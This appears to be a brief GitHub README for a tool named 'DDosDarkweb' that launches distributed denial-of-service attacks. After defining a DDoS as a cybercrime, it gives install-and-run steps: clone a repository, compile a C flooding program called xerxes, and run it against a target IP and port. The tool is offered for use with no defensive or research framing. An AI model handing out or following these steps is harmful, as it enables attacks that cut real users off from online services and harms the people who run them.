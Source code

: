 # DDosDarkweb
DDoS Attack means "Distributed Denial-of-Service (DDoS) Attack" and it is a cybercrime in which the attacker floods a server with internet traffic to prevent users from accessing connected online services and sites.

<h3>DDos DarkWeb Tool</h3>

<B> Installation </B>

GIT repositories

    git clone https://github.com/H1R0GH057/Anonymous.git
    
Go to DIRECTORY

     cd Anonymous
     
Execute

      chmod +x *
      
Compile

      gcc -o xerxes xerxes.c
      
      
RUN

      ./xerxes IP PORT
